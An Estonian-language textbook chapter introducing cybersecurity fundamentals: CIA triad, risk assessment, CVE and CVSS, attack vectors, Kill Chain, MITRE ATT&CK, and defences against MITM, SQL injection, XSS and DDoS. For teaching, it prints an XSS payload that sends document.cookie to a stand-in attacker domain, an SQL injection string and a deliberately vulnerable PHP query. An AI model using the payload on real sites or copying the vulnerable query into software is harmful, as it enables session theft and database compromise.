

[← 23. UUS: Windows, Linux ja macOS võrdluses](23-windows-linux-macos.md) · [Sisukord](../README.md) · [25. UUS: Krüptograafia ajalugu ja põhimõisted →](25-kruptograafia-ajalugu.md)

## 24. UUS: Küberturbe põhimõisted ja ründevektorid

Peatükid 24–31 moodustavad III osa **„Küberturbe alused“**. Peatükk 24 annab ühise mõistestiku: mida me kaitseme, kes ründab ja miks, kust ründaja sisse pääseb ning kuidas rünne samm-sammult kulgeb. Peatükid 25–30 käsitlevad krüptograafiat ja peatükk 31 õigus- ja juhtimisraamistikku. Ründeid ja kaitset käsitlevad praktilisemalt kaks lisamaterjali: [Peamised küberohud: teooria, ründevektorid ja praktika](https://github.com/valdonolvak/kyberturvalisus/blob/main/K%C3%BCberturbe_alused/Peamised%20k%C3%BCberohud%20teooria%2C%20r%C3%BCndevektorid%20ja%20praktika.md) ja [Küberhügieeni 12 põhimõtet](https://github.com/valdonolvak/kyberturvalisus/blob/main/K%C3%BCberh%C3%BCgieeni%2012%20p%C3%B5him%C3%B5tet%20%E2%80%93%20%C3%B5ppematerjal%20n%C3%A4idete%20ja%20anal%C3%BC%C3%BCsiga.md).

**Pärast peatüki läbimist õppija:**

- selgitab konfidentsiaalsuse, tervikluse ja käideldavuse tähendust ning toob iga kohta ründe ja kaitse näite;
- eristab mõisteid vara, oht, nõrkus, ekspluit, risk ja meede ning hindab lihtsat riski;
- kirjeldab levinumaid ründevektoreid, nende tunnuseid ja kaitset;
- kirjeldab rünnet Cyber Kill Chaini etappide ja MITRE ATT&CK taktikate abil;
- selgitab MITM-i, SQL-süsti, XSS-i ja DDoS-i toimimist ning tõrjet.

### 24.1 Infoturve, küberturve ja ründajad

**Infoturve** kaitseb teavet igal kujul: paberil, peas ja arvutis. **Küberturve** on selle osa, mis tegeleb digitaalsete süsteemide ja võrkudega. Praktikas kasutatakse mõlemat sõna sageli sünonüümidena. Oluline on mõista, et küberturve ei ole ainult tehnika: sama tähtsad on inimesed (kas töötaja tunneb õngitsuskirja ära), protsessid (kas varukoopia taastamist on harjutatud) ja juhtimine (kas keegi vastutab).

Kaitse planeerimisel tuleb teada, kes võiks rünnata ja miks. Eri ründajatel on erinevad eesmärgid, oskused ja vastupidavus.

| Ründaja tüüp | Eesmärk | Tüüpiline tegevus | Näide |
| --- | --- | --- | --- |
| Kurjategijad, lunavararühmad | raha | lunavara, andmete väljapressimine, pangakontode tühjendamine | lunavara krüpteerib haigla failid ja nõuab lunaraha |
| Riiklikud ründajad (APT) | luure, sabotaaž, mõjutamine | pikaajaline varjatud kohalolek, tarneahela ründed | ründaja varastab ministeeriumi e-kirju kuude kaupa |
| Häktivistid | poliitiline sõnum | DDoS, veebilehtede rikkumine, lekked | 2007. aastal halvati DDoS-rünnakutega Eesti riigi- ja pangaveebid |
| Siseoht | kättemaks, raha või tahtmatu viga | andmete kaasavõtmine, valesti saadetud e-kiri | lahkuv töötaja kopeerib kliendiandmebaasi |
| Oportunistlikud ründajad | lõbu, kuulsus, väike tulu | valmis tööriistad, kogu interneti skaneerimine | avatud RDP-port leitakse tunni jooksul ja seda hakatakse parooliga proovima |

**Oluline järeldus:** enamik organisatsioone ei ole sihtmärk mitte sellepärast, et keegi neid valis, vaid sellepärast, et automaatne skanner leidis nõrkuse. Seepärast on põhiline küberhügieen (paikamine, MFA, varukoopiad) kõige suurema mõjuga meede ka väikeses organisatsioonis.

### 24.2 Turvaomadused: CIA kolmik


Joonis: infoturbe kolm põhiomadust ja riski tekkimine. Iga rünne kahjustab vähemalt ühte omadust. Risk tekib alles siis, kui oht leiab nõrkuse, mille kaudu vara kahjustada.

#### Konfidentsiaalsus (confidentiality)

Teavet näevad ainult need, kellel on selleks õigus. Konfidentsiaalsus on rikutud, kui õpilane näeb teiste õpilaste hindeid, kui lekib kliendiandmebaas või kui keegi kuulab krüpteerimata WiFi-võrgus paroole pealt.

Kaitsemeetmed: **juurdepääsuõigused** (vähimate õiguste põhimõte, ptk 18), **autentimine ja MFA**, **krüpteerimine** kettal (BitLocker) ja võrgus (TLS), andmete **klassifitseerimine** (avalik, asutusesisene, piiratud) ning ekraani lukustamine.

#### Terviklus (integrity)

Teave on õige ja täielik ning seda ei ole muudetud ilma loata. Terviklus on rikutud, kui ründaja muudab arve pangakontot, kui pahavara asendab süsteemifaili või kui keegi kustutab logist oma jäljed. Terviklus hõlmab ka seda, et muudatus on jälgitav: kes, millal ja mida muutis.

Kaitsemeetmed: **räsid ja kontrollsummad** (ptk 27), **digiallkirjad** (ptk 29), **versioonihaldus** ja muutmisõiguste piiramine, **auditlogid**, mida haldur ise kustutada ei saa.

#### Käideldavus (availability)

Teave ja teenused on kasutatavad siis, kui neid vaja on. Käideldavus on rikutud DDoS-rünnaku, lunavara, riistvararikke, voolukatkestuse ja ka halva seadistuse korral (nt täis saanud ketas).

Kaitsemeetmed: **varukoopiad** ja harjutatud taastamine, **reservsüsteemid** (RAID, klaster, teine andmekeskus), **DDoS-kaitse**, **toimepidevuse plaan**, kettaruumi ja koormuse **jälgimine**.

#### Omaduste vastuolud ja lisaomadused

Omadused võivad omavahel vastuolus olla. Väga range konfidentsiaalsus (iga faili jaoks eraldi kinnitus) vähendab käideldavust. Väga hea käideldavus (andmed kümnes kohas) suurendab lekkeriski. Turvaarhitekti töö on leida tasakaal, mis sobib konkreetse vara väärtusega.

Lisaks kolmikule räägitakse sageli ka järgmistest omadustest:

- **autentsus** – andmed või sõnum pärinevad tõesti sellelt, kes väidab end olevat saatja;
- **mittesalgamine** (non-repudiation) – allkirjastaja ei saa hiljem eitada, et ta allkirjastas (ptk 29);
- **vastutus ja jälgitavus** (accountability) – iga tegevuse saab siduda konkreetse isikuga.

### 24.3 Vara, oht, nõrkus, ekspluit ja risk

Neid mõisteid aetakse sageli segi. Vaatame neid ühe näite abil: **kooli õppeinfosüsteem, mis on avatud internetti**.

| Mõiste | Tähendus | Näide õppeinfosüsteemi kohta |
| --- | --- | --- |
| Vara (asset) | miski, millel on organisatsioonile väärtus | õppijate hinded ja isikuandmed, süsteemi kättesaadavus |
| Oht (threat) | võimalik kahjulik sündmus või selle põhjustaja | lunavararühm, hindeid muuta sooviv õpilane |
| Nõrkus (vulnerability) | viga või puudus, mida saab ära kasutada | veebirakenduse vana versioon, õpetaja nõrk parool, MFA puudumine |
| Ekspluit (exploit) | kood või võte, mis nõrkust kasutab | avalik skript, mis kasutab vana versiooni viga |
| Mõju (impact) | kahju, kui oht realiseerub | hinded lekivad või neid muudetakse, kool peab teavitama Andmekaitse Inspektsiooni |
| Tõenäosus (likelihood) | kui tõenäoline on, et see juhtub | kõrge, kui ekspluit on avalik ja süsteem internetis |
| Risk | tõenäosus × mõju | „kõrge risk: avalik ekspluit ja tundlikud andmed“ |
| Meede (control) | tegevus, mis vähendab tõenäosust või mõju | paikamine, MFA, varukoopia, ligipääs ainult VPN-i kaudu |

**Riski lihtne hindamine.** Hinda tõenäosust ja mõju skaalal 1–3 (madal, keskmine, kõrge) ja korruta. Tulemus 1–2 on madal risk, 3–4 keskmine ja 6–9 kõrge. Õppeinfosüsteemi näites: tõenäosus 3 (avalik ekspluit) × mõju 3 (isikuandmed) = 9, ehk kõrge risk. Kui süsteem paigatakse ja sinna pääseb ainult MFA-ga, langeb tõenäosus 1-ni ja risk on 3 – keskmine. Mõju ei muutunud, sest andmed on endiselt samad. Mõju vähendaksid näiteks andmete minimeerimine ja krüpteerimine. Riskihaldusest räägib täpsemalt peatükk 31.

#### Nõrkuse elukaar, CVE ja CVSS


Joonis: nõrkuse elukaar. **Nullpäevane nõrkus** (zero-day) on nõrkus, mida ründaja kasutab enne, kui tootja on sellest teada saanud või paiga välja andnud. Palju sagedamini kasutavad ründajad aga aega, mis jääb paiga ilmumise ja selle paigaldamise vahele.

- **CVE** (Common Vulnerabilities and Exposures) on avalikult teada nõrkuse unikaalne tunnus, nt `CVE-2024-3400`. Sellega saavad tootja, administraator ja turvatarkvara rääkida samast veast.
- **CVSS** (Common Vulnerability Scoring System) hindab nõrkuse tehnilist raskust skaalal 0–10: 0,1–3,9 madal, 4,0–6,9 keskmine, 7,0–8,9 kõrge ja 9,0–10 kriitiline. Hinne arvestab näiteks seda, kas rünne käib üle võrgu, kas on vaja sisse logida ja kas on vaja kasutaja tegevust. Kehtiv versioon on CVSS 4.0 ([FIRST](https://www.first.org/cvss/)).
- CVSS **ei ole sinu risk**. Sama 9,8-punktiline nõrkus on internetis avatud VPN-seadmes kriitiline, kuid isoleeritud laborivõrgus väike. Seetõttu vaatavad administraatorid ka seda, kas nõrkust kasutatakse päriselt. USA küberagentuur CISA peab avalikku **KEV-loetelu** (Known Exploited Vulnerabilities) nõrkustest, mida on rünnetes kasutatud ([CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)). Selles loetelus olevad nõrkused tuleb paigata esimesena.
- Microsoft avaldab turvaparandused tavaliselt iga kuu teisel teisipäeval (**Patch Tuesday**).

### 24.4 Ründepind

**Ründepind** (attack surface) on kõigi nende kohtade summa, kust ründaja saab süsteemiga suhelda või sinna sisse pääseda. Mida suurem on ründepind, seda rohkem on kohti, kus võib olla nõrkus.

| Ründepinna osa | Näited | Kuidas vähendada |
| --- | --- | --- |
| Võrk | avatud pordid, internetis nähtav RDP, SMB, haldusliides | sulge mittevajalikud pordid, haldus ainult VPN-i või haldusvõrgu kaudu |
| Tarkvara | iga paigaldatud programm, brauseri laiendus, vana PHP-versioon | eemalda kasutamata tarkvara, uuenda, kasuta rakenduste lubamisloendit |
| Identiteedid | kasutajakontod, teenusekontod, vanad kontod, ühised paroolid | sulge lahkunute kontod, kasuta MFA-d, vaata õigused üle |
| Inimesed | e-post, telefon, sotsiaalmeedia | teadlikkuskoolitus, teatamise lihtne kanal |
| Füüsiline | lukustamata serveriruum, USB-pordid, kaotatud sülearvuti | lukud, BitLocker, USB-seadmete kontroll |
| Tarneahel | IT-partneri kaugligipääs, tarkvara uuendused, pilveteenused | lepingud, tarnija ligipääsu piiramine ja logimine |

Ründepinda tuleb vaadata ka väljastpoolt. Teenused nagu Shodan ja Censys skaneerivad pidevalt kogu internetti ja näitavad, millised seadmed ja versioonid on nähtavad. Sama infot kasutavad ründajad. Iga suletud port, eemaldatud teenus ja kustutatud vana konto on üks võimalus vähem.

### 24.5 Ründevektorid

**Ründevektor** on tee, mida mööda ründaja esimest korda süsteemi jõuab. Järgnevalt on kirjeldatud levinumad vektorid: kuidas need toimivad, kuidas neid ära tunda ja kuidas kaitsta.

#### Õngitsus ja sotsiaalne manipuleerimine

**Õngitsus** (phishing) kasutab ära inimese usaldust, kiirustamist või hirmu. Ründaja saadab e-kirja, mis näib tulevat pangalt, tarnijalt, juhilt või IT-osakonnalt, ja palub avada manuse, klõpsata lingil või sisestada parooli.

| Liik | Kirjeldus |
| --- | --- |
| Massõngitsus | sama kiri tuhandetele, nt „teie pakk ootab, makske tollimaks“ |
| Sihitud õngitsus (spear phishing) | kiri ühele inimesele, kasutades tema nime, ametit ja kolleegide nimesid |
| Ärikirja kompromiteerimine (BEC) | ründaja esineb juhi või tarnijana ja palub teha makse uuele kontole |
| Vishing ja smishing | sama telefonikõne või SMS-i teel, nt „pangast helistatakse, kinnitage Smart-ID“ |
| QR-õngitsus (quishing) | link peidetakse QR-koodi, mida e-posti filter ei loe |

**Õngitsuse tunnused:** kiirustamine („konto suletakse 2 tunni pärast“), ebatavaline palve (uus pangakonto, kinkekaardid), saatja aadress, mis erineb vähe õigest (`rnicrosoft.com`), link, mis viib teisele domeenile, ootamatu manus (`.zip`, `.html`, `.iso`, makrodega dokument) ning palve hoida asja saladuses.

**Kaitse:** teadlikkuskoolitus ja õngitsuse harjutused, lihtne viis kahtlasest kirjast teatada, e-posti filter, domeeni kaitse SPF-, DKIM- ja DMARC-kirjetega (takistab sinu domeeni nimel võltskirjade saatmist), **õngitsuskindel MFA** (FIDO2-võti, pääsuvõti) ning reegel, et makse- ja kontoandmete muudatus kinnitatakse alati teise kanali kaudu (helistades teadaolevale numbrile).

#### Paroolirünnakud

- **Toore jõu rünne** (brute force) – ühe konto peal proovitakse palju paroole. Kaitse: kontolukustus, aeglustamine.
- **Paroolipihustamine** (password spraying) – paljudel kontodel proovitakse üht levinud parooli (nt `Talv2026!`). Kontolukustus ei aita, sest iga kontoga tehakse vaid üks katse.
- **Volituste täitmine** (credential stuffing) – teiste teenuste lekkest pärit e-posti ja parooli paare proovitakse sinu teenuses, sest inimesed kasutavad paroole korduvalt.
- **MFA väsitamine** (MFA fatigue) – ründaja teab parooli ja saadab kasutajale kümneid MFA-kinnituse palveid, kuni kasutaja tüdineb ja vajutab „Kinnita“.

**Kaitse:** pikad unikaalsed paroolid ja paroolihaldur, lekkinud paroolide keelamine, MFA koos numbri sobitamisega (number matching), õngitsuskindel MFA administraatoritele ning ebaõnnestunud sisselogimiste jälgimine.

#### Paikamata teenused

Ründajad otsivad automaatselt internetis nähtavaid seadmeid, mille tarkvaras on teadaolev nõrkus. Eriti ohustatud on **võrgu servas asuvad seadmed**: VPN-lüüsid, tulemüürid, e-posti- ja failiedastusserverid. Nendel puudub sageli EDR, need on alati internetis ja nende kaudu pääseb otse sisevõrku. Paljud suured intsidendid on alanud just VPN-seadme või tulemüüri nõrkusest.

**Kaitse:** varade nimekiri (sa ei saa paigata seda, millest sa ei tea), kriitiliste ja KEV-loetelus olevate nõrkuste paikamine päevade jooksul, tootja turvateadete jälgimine, haldusliidese peitmine internetist ning servaseadmete logide saatmine keskse jälgimise süsteemi.

#### Vale seadistus

Sageli ei ole vaja ühtegi tarkvaraviga: piisab vaikeparoolist, avalikuks jäetud pilvekaustast, internetti avatud andmebaasist ilma paroolita või RDP-st, mis on otse internetis. Vale seadistus tekib kiirustamisest („teen hiljem korda“), dokumenteerimata muudatustest ja testkeskkondadest, mis jäävad unustatuna tööle.

**Kaitse:** turvaline algseadistus (Microsoft Security Baselines, CIS Benchmarks), muudatuste haldus, regulaarne konfiguratsiooni kontroll ja välisskaneerimine.

#### Pahavara

**Pahavara** (malware) on üldnimetus pahatahtlikule tarkvarale.

| Liik | Mida teeb |
| --- | --- |
| Viirus | lisab end teistesse failidesse ja levib koos nendega |
| Uss (worm) | levib võrgus ise, ilma kasutaja tegevuseta (nt WannaCry 2017) |
| Troojalane | näib kasuliku programmina, kuid avab ründajale ukse |
| Lunavara (ransomware) | krüpteerib failid ja nõuab lunaraha; tänapäeval varastab enne ka andmed |
| Infovaras (infostealer) | varastab brauserisse salvestatud paroolid, küpsised ja seansid |
| Nuhkvara (spyware) | jälgib kasutajat |
| Botivõrgu klient | teeb arvutist osa botnetist, mida kasutatakse DDoS-iks ja rämpspostiks |
| Juurkomplekt (rootkit) | peidab end operatsioonisüsteemi sügavusse (ptk 18) |

Pahavara jõuab arvutisse e-kirja manuse, võltsitud allalaadimise, nakatunud USB-pulga või paikamata teenuse kaudu. **Kaitse:** EDR (nt Microsoft Defender for Endpoint), rakenduste lubamisloend (Smart App Control, App Control for Business), makrode blokeerimine internetist tulnud dokumentides, kasutaja töötamine ilma administraatoriõigusteta.

#### Tarneahela rünne

Ründaja ei ründa sihtmärki otse, vaid tema tarnijat: tarkvaratootjat, IT-teenuse pakkujat või avatud lähtekoodiga teeki. Tuntud näited: **SolarWinds** (2020) – ründajad lisasid tagaukse Orion-tarkvara uuendusse, mille paigaldasid tuhanded organisatsioonid; **XZ Utils** (2024) – ründaja töötas kaks aastat usaldusväärse kaasautorina, et lisada Linuxi pakkimisteeki tagauks, mille avastas juhuslikult Microsofti insener Andres Freund.

**Kaitse:** tarnijate turvanõuded lepingus, tarnijate kaugligipääsu piiramine ja logimine, allkirjastatud tarkvara, tarkvara koostisosade nimekiri (SBOM) ja kõrvalekallete jälgimine.

#### Siseoht

Siseoht võib olla **tahtlik** (rahulolematu töötaja) või **tahtmatu** (töötaja saadab tabeli valele adressaadile, jätab sülearvuti autosse). Tahtmatud vead on palju sagedasemad. **Kaitse:** vähimad õigused, lahkuja kontode kohene sulgemine, tundlike andmete liikumise jälgimine (DLP), logid ning kultuur, kus vigadest julgetakse rääkida.

#### Tehisintellekti väärkasutus

Tehisintellekt teeb vanad võtted tõhusamaks: õngitsuskirjad on veatus keeles ja isikupärastatud, häält saab kloonida mõne sekundi salvestuse põhjal ja võltsvideokõne näib usutav. 2024. aastal kandis Arupi Hongkongi kontori töötaja üle umbes 25 miljonit dollarit pärast videokõnet, kus kõik teised osalejad olid süvavõltsingud. AI-agentide endi vastu kasutatakse viipesüsti (ptk 21). **Kaitse:** maksete ja õiguste muudatuste kinnitamine teise kanali kaudu, kokkulepitud kontrollsõnad, teadlikkus.

### 24.6 Ründe käik: Cyber Kill Chain ja MITRE ATT&CK

Sihitud rünne ei ole üks hetk, vaid protsess, mis võib kesta päevi või kuid. Kui me teame ründe etappe, saame igas etapis küsida: kuidas me seda märkaksime ja kuidas selle katkestaksime?


Joonis: Lockheed Martini **Cyber Kill Chain** jagab sihitud ründe seitsmeks etapiks ([Lockheed Martin](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)). Ründaja peab läbima kõik etapid, kaitsjale piisab ühe katkestamisest. Mida varem rünne katkeb, seda vähem kahju see teeb.

| Etapp | Mida ründaja teeb | Näide | Kaitse ja tuvastamine |
| --- | --- | --- | --- |
| 1. Luure (reconnaissance) | kogub infot sihtmärgi kohta | otsib LinkedInist raamatupidajate nimed, Shodanist VPN-seadme versiooni | vähem avalikku tehnilist infot, oma ründepinna kontroll |
| 2. Relvastamine (weaponization) | valmistab ette ründevahendi | makroga Wordi-fail või võltssisselogimisleht | ohuteave, tootja turvateated |
| 3. Kohaletoimetamine (delivery) | toimetab ründevahendi sihtmärgini | õngitsuskiri, nakatunud USB, ekspluit üle võrgu | e-posti filter, teadlikkus, tulemüür |
| 4. Ärakasutamine (exploitation) | kasutab nõrkust või inimese tegevust | kasutaja lubab makrod, VPN-seadme viga | paikamine, makrode blokeerimine, MFA |
| 5. Paigaldamine (installation) | jätab endale püsiva ligipääsu | tagauks, ajastatud ülesanne, uus kasutaja | EDR, rakenduste lubamisloend, kasutaja ilma admini-õigusteta |
| 6. Juhtimiskanal (command and control, C2) | loob ühenduse oma serveriga | HTTPS-ühendus tundmatule domeenile iga 5 minuti tagant | väljuva liikluse kontroll, DNS-filter, anomaaliate tuvastus |
| 7. Tegevus eesmärgi nimel (actions on objectives) | teeb seda, milleks tuli | andmete väljavedu, lunavara käivitamine | segmentimine, DLP, varukoopiad, intsidendile reageerimine |

Kill Chaini kriitika on, et see on loodud välise ründaja ja pahavara mudeliks. Siseohtu ja pilvekontode ülevõtmist (kus pahavara polegi) kirjeldab see halvasti. Seetõttu kasutatakse tänapäeval sageli detailsemat mudelit.

**MITRE ATT&CK** on avalik ja pidevalt täienev kataloog sellest, mida ründajad päriselt teevad ([MITRE ATT&CK](https://attack.mitre.org/)). Kataloog koosneb:

- **taktikatest** – ründaja eesmärk antud hetkel (miks), nt *Initial Access* (esmane sissepääs);
- **tehnikatest** – kuidas eesmärk saavutatakse, igaühel oma tunnus, nt **T1566** *Phishing*, **T1078** *Valid Accounts* (kehtivad kontod), **T1486** *Data Encrypted for Impact* (lunavara);
- **rühmitustest ja tarkvarast** – milliseid tehnikaid konkreetsed ründerühmad kasutavad.

| Taktika | Ründaja eesmärk |
| --- | --- |
| Reconnaissance, Resource Development | info kogumine ja ründe taristu ettevalmistamine |
| Initial Access | esmane sissepääs (õngitsus, avalik teenus, kehtiv konto) |
| Execution | oma koodi käivitamine (PowerShell, makro) |
| Persistence | püsimine ka pärast taaskäivitamist |
| Privilege Escalation | kõrgemate õiguste saamine |
| Defense Evasion | kaitse vältimine (EDR-i väljalülitamine, logide kustutamine) |
| Credential Access | paroolide ja räside varastamine |
| Discovery | võrgu ja kontode uurimine |
| Lateral Movement | liikumine teistesse masinatesse |
| Collection, Command and Control | andmete kogumine ja kaugjuhtimine |
| Exfiltration | andmete väljavedu |
| Impact | kahju tekitamine (krüpteerimine, kustutamine, teenuse halvamine) |

Kaitsja kasutab ATT&CK-i kolmel viisil: **intsidendi kirjeldamiseks** ühises keeles, **tuvastusreeglite kirjutamiseks** ("kas me märkaksime T1003 ehk paroolide väljavõtmist mälust?") ja **lünkade leidmiseks** (millise taktika vastu meil tuvastus puudub).

### Näide: õngitsuskirjast lunavarani


Joonis: tavaline lunavararünne organisatsiooni vastu. Iga sammu all on meede, mis selle sammu katkestaks.

Selline rünne võib päriselt kulgeda näiteks nii:

- **Esmaspäev 9:12.** Raamatupidaja saab kirja "Arve nr 4471 – maksetähtaeg täna". Link viib võltsitud Microsoft 365 sisselogimislehele. Ta sisestab parooli ja SMS-koodi. Ründaja kasutab mõlemat kohe (ATT&CK: T1566, T1078).
- **Esmaspäev 9:40.** Ründaja logib sisse ja loob postkastis reegli, mis peidab pangast tulevad kirjad (T1114 *Email Collection*, kaitsest kõrvalehiilimine).
- **Teisipäev – neljapäev.** Ründaja logib VPN-i kaudu sisevõrku, uurib võrku (Discovery), leiab vanast serverist administraatori parooli skriptifailist ja liigub RDP kaudu teistesse masinatesse (Lateral Movement).
- **Reede.** Ründaja kopeerib 40 GB dokumente pilvesalvestusse (Exfiltration) ja kustutab võrgus olevad varukoopiad.
- **Laupäev 2:00.** Kõik serverid krüpteeritakse korraga ja ekraanile ilmub lunarahanõue. Ründaja ähvardab lisaks andmed avaldada (topeltväljapressimine).

Vaata rünnet kaitsja pilguga:

- **esmaspäeva samm** katkeb, kui MFA on õngitsuskindel (FIDO2-turvavõti või pääsuvõti), sest võltslehele sisestatud kood ei aita ründajat;
- **postkastireegel** oleks märgatav, kui uute edasisuunamis- ja peitmisreeglite kohta tuleb hoiatus;
- **liikumine võrgus** aeglustub, kui tööjaamad ei saa üksteisega RDP või SMB kaudu suhelda ja administraatori paroole ei hoita failides;
- **40 GB väljavedu** reede õhtul peaks väljuva liikluse jälgimisel silma hakkama;
- **lunaraha** ei pea maksma, kui võrgust eraldatud varukoopia on olemas ja selle taastamist on harjutatud. Andmete väljaveo vastu varukoopia ei aita, seetõttu on vaja ka logimist ja väljuva liikluse kontrolli.

### 24.7 Võrgu- ja rakenduseründed

#### Vahendajarünne (MITM)

**Vahendajarünne** (man-in-the-middle, MITM) tähendab, et ründaja paigutab end kahe osapoole vahele. Mõlemad arvavad, et suhtlevad otse, kuid kogu liiklus käib läbi ründaja, kes saab seda lugeda ja muuta.

Kuidas ründaja vahele saab:

- **võlts-WiFi tugijaam** (evil twin) – kohvikus on avatud võrk "Kohvik\_WiFi" ja ründaja loob sama nimega tugevama signaaliga võrgu;
- **ARP-võltsimine** – kohtvõrgus teatab ründaja, et tema MAC-aadress kuulub vaikelüüsile, ja kogu liiklus läheb tema kaudu (vt ARP-i ptk 11);
- **DNS-i võltsimine** – ohver saab domeeninimele vale IP-aadressi ja jõuab ründaja serverisse;
- **võlts-DHCP-server** – jagab ründaja aadressi vaikelüüsi või DNS-serverina.


Joonis: krüpteerimata ühenduses näeb ja muudab ründaja kõike. TLS-iga näeb ta ainult krüpteeritud baite. Kui ta esitab võltssertifikaadi, katkestab brauser ühenduse. TLS-i ja sertifikaate käsitleb peatükk 29.

**Kaitse:** krüpteerimine otsast otsani (HTTPS, TLS, VPN avalikus võrgus), **HSTS**, mis keelab brauseril kasutada sama saidi puhul krüpteerimata HTTP-d, sertifikaadihoiatuste mitte eiramine ning võrguseadmetes DHCP Snooping ja Dynamic ARP Inspection, mis blokeerivad võlts-DHCP- ja ARP-vastused.

#### SQL-süst

**SQL-süst** (SQL injection) tekib siis, kui programm kleebib kasutaja sisendi andmebaasipäringu teksti sisse. Andmebaas ei tea, milline osa tekstist on programmeerija kirjutatud käsk ja milline kasutaja sisend, seega võib sisend muutuda käsu osaks.



Joonis: sisend `' OR '1'='1` muudab tingimuse alati tõeseks ja päring tagastab kõik kasutajad.

Vaatame samm-sammult. Programm koostab päringu nii:

```php
// OHTLIK: sisend kleebitakse päringusse
$sql = "SELECT * FROM users WHERE name = '" . $_GET['nimi'] . "'";
```

Kui kasutaja sisestab `mari`, tekib päring `WHERE name = 'mari'`. Kui ta sisestab `' OR '1'='1`, tekib `WHERE name = '' OR '1'='1'`. Esimene ülakoma sulges stringi, ülejäänu sai käsu osaks ja tingimus on alati tõene. Sama võttega saab lugeda teisi tabeleid (`UNION SELECT`), muuta andmeid või mõnes andmebaasis isegi käske käivitada.

Lahendus on **parameetritega päring** (prepared statement):

```php
// TURVALINE: päring ja sisend saadetakse eraldi
$stmt = $pdo->prepare("SELECT * FROM users WHERE name = ?");
$stmt->execute([$_GET['nimi']]);
```

Andmebaas saab enne päringu struktuuri ja alles siis väärtuse. Väärtust ei tõlgendata kunagi käsuna, olgu selles mis tahes märgid. Lisakaitsena kasutab rakendus andmebaasikontot, millel on ainult vajalikud õigused (ei saa näiteks tabeleid kustutada).

#### XSS

**XSS** (cross-site scripting) on sama viga veebilehel: kasutaja sisestatud tekst kuvatakse teistele HTML-ina ja selles olev skript käivitub teise kasutaja brauseris. Kui kommentaarivälja kirjutatakse `<script>fetch('https://ryndaja.ee/?c='+document.cookie)</script>` ja leht näitab seda muutmata, saadab iga lugeja brauser oma seansiküpsise ründajale.

- **salvestatud XSS** – pahatahtlik tekst salvestatakse andmebaasi (kommentaar, profiilinimi) ja käivitub kõigil vaatajatel;
- **peegeldatud XSS** – skript on lingis (`?otsing=<script>…`) ja käivitub ainult sellel, kes lingile klõpsab;
- **DOM-põhine XSS** – viga on lehe enda JavaScriptis, mis kirjutab URL-i osa lehele.

**Kaitse:** väljundi kodeerimine (PHP-s `htmlspecialchars()`, mis teeb `<`-st `&lt;`), turvalised raamistikud, mis seda vaikimisi teevad, **Content Security Policy** (CSP) päis, mis keelab tundmatust allikast skriptid, ja küpsiste lipud `HttpOnly` (JavaScript ei näe küpsist) ning `SameSite`. Veebirakenduste levinumad vead koondab [OWASP Top 10](https://owasp.org/Top10/) ja praktilised juhised [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/).

#### Teenusetõkestamine (DoS ja DDoS)

**Teenusetõkestamine** ründab käideldavust. DoS tuleb ühest allikast, DDoS (distributed) paljudest nakatunud seadmetest ehk botnetist, kuhu kuuluvad sageli kehvasti kaitstud kaamerad ja ruuterid.

| Liik | Kuidas toimib | Näide |
| --- | --- | --- |
| Mahupõhine | täidab võrguühenduse läbilaskevõime | sadu gigabitte UDP-liiklust |
| Võimendusrünne | ründaja saadab väikese päringu võltsitud saatja-aadressiga, server saadab ohvrile suure vastuse | DNS- või NTP-võimendus |
| Protokolli rünne | kurnab ühenduste tabelit | SYN-tulv: palju poolikuid TCP-ühendusi |
| Rakenduskihi rünne | näeb välja nagu tavalised päringud, kuid koormab serverit | tuhanded otsingupäringud sekundis |

**Kaitse:** teenusepakkuja või pilve DDoS-kaitse (mahupõhist rünnet oma tulemüüriga ei peata, sest ühendus ise saab täis), sisuedastusvõrk (CDN), päringute piiramine (rate limiting), SYN-küpsised ning plaan, kellele rünnaku ajal helistada.

### 24.8 Kaitse kihtidena

Üksik meede ei peata kõiki ründeid, seetõttu ehitatakse kaitse kihtidena (**defense in depth**). Kui üks kiht läbitakse, peab järgmine ründaja peatama või vähemalt teda märkama.

| Kiht | Meetmed |
| --- | --- |
| Inimesed | teadlikkuskoolitus, õngitsuse harjutused, lihtne teatamine |
| Identiteet | MFA (adminitel õngitsuskindel), vähimad õigused, eraldi adminikontod |
| Seadmed | paikamine, EDR, BitLocker, rakenduste lubamisloend |
| Võrk | tulemüür, segmentimine, VPN, väljuva liikluse kontroll |
| Rakendused | turvaline kood, parameetritega päringud, sõltuvuste uuendamine |
| Andmed | klassifitseerimine, krüpteerimine, võrgust eraldatud varukoopiad |
| Jälgimine ja reageerimine | tsentraalsed logid, hoiatused, harjutatud intsidendiplaan (ptk 22) |

Tänapäeva lähenemine lisab sellele **eelduse, et rikkumine on juba toimunud** (assume breach) ja **nullusalduse** (zero trust): ühtki seadet ega kasutajat ei usaldata ainult seetõttu, et ta on sisevõrgus. Iga päring kontrollitakse identiteedi, seadme seisundi ja konteksti alusel. Iga kihi praktilised meetmed on lisamaterjalis "Küberhügieeni 12 põhimõtet".

### Kokkuvõte

- Infoturve kaitseb konfidentsiaalsust, terviklust ja käideldavust. Risk on tõenäosus korda mõju ja meede vähendab üht neist.
- CVE tähistab nõrkust, CVSS hindab selle tehnilist raskust. Tegelik risk sõltub sellest, kus süsteem on ja kas nõrkust päriselt kasutatakse.
- Ründevektor on ründaja esimene sissepääs. Levinumad on õngitsus, paroolirünnakud, paikamata servaseadmed ja vale seadistus.
